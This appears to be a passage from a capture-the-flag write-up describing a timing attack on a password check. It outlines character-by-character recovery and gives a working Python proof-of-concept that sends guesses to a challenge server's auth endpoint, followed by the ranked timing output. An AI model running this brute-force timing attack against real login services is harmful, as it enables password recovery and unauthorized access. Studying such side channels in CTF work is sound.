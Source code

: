 The high-level concept is as follows:

1. For each legal character that a password can contain:
   1. Send a request with the current character as the first character of the password and some other random string for the rest of the password
   2. Measure the time it takes for the server to respond
   3. If the server is vulnerable to a timing attack (by comparing the user password to the real password character by character), the time it takes for the server to respond when we send the correct first character will be a bit longer. This is because in this case, the server performs two comparisons (one for the first letter which is successful, and then for the second letter which is probably wrong), while in the common case the server will find out that the password is wrong during the first comparison
   4. After revealing the first letter of the password, repeat the procedure for the rest of the password

We can use the following script as a proof of concept:

```python
import requests
import string
import json

def send_request(payload):
    headers = {'User-Agent': 'ed9ae2c0-9b15-4556-a393-23d500675d4b'}
    r = requests.post("http://35.246.158.51:8070/auth/v2", json={"Seed":"12345", "Password": payload}, headers = headers)
    j = json.loads(r.text)
    return j
    
l = []
for c in string.printable:
    r = send_request(c + "#")
    l.append((r["Time"], c))
print(sorted(l, reverse = True))
```

The result:

```console
root@kali:/media/sf_CTFs/mossad/1# python timing.py
[(163682, 'P'), (156899, '"'), (146783, 'C'), (145022, "'"), (143158, '1'), (139654, 'j'), (139454, 'L'), (135785, '8'), (134824, '9'), (132512, '!'), (131702, '='), (131552, '$'), (131263, '0'), (131155, '@'), (130981, 'N'), (129179, 'b'), (128047, 'E'), (128036, 'G'), (127787, 'h'), (127631, '\x0b'), (127044, 'A'), (126666, 'q'), (126146, 'n'), (125356, ','), (125075, ' '), (124757, 'X'), (124608, 'F'), (124069, 'w'), (124025, 'Y'), (123364, 'm'), (122906, 'g'), (122613, 'u'), (122606, '\t'), (121776, '~'), (121402, '\x0c'), (121275, '.'), (120777, '^'), (120572, '5'), (120426, 'D'), (120388, 'l'), (120097, 'H'), (120018, '?'), (119420, 'J'), (119327, 'r'), (119326, '4'), (119259, 'V'), (119190, 'y'), (118724, 'I'), (118169, '&'), (118157, 'T'), (118114, 'O'), (117913, '`'), (117629, '+'), (117480, 's'), (117362, 'Q'), (116088, '\\'), (116053, '\n'), (115872, 'B'), (115745, '/'), (115344, 'R'), (115142, '7'), (114646, '6'), (114521, 'a'), (114003, 'K'), (113926, 'f'), (113572, '\r'), (113293, 'v'), (113253, 't'), (113185, 'p'), (113152, ')'), (112912, '('), (112414, '|'), (111918, '['), (111859, 'k'), (111699, ':'), (111509, ']'), (111354, 'M'), (111118, '#'), (110780, 'c'), (110737, 'z'), (110175, 'S'), (109707, '3'), (109606, 'e'), (109528, '{'), (109424, '}'), (109305, 'U'), (108920, '-'), (108639, 'Z'), (108453, '_'), (108418, '2'), (108109, '*'), (108038, 'o'), (107736, 'd'), (107513, '<'), (107136, '>'), (106291, '%'), (105649, 'W'), (104954, ';'), (103039, 'i'), (78280, 'x')]
```

